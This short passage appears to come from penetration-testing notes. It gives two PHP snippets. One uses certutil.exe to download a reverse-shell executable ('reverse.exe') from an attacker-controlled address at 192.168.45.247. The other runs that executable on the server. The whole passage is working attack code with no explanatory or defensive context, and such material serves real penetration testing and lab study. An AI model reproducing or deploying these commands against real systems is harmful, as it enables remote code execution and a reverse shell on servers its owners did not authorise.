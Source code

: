 #### PHP
###### PHP Upload
```c
<?php
$download = system('certutil.exe -urlcache -split -f http://192.168.45.247/reverse.exe reverse.exe', $val)
?>
```

###### PHP Run
```c
<?php
$exec = system('reverse.exe', $val)
?>
```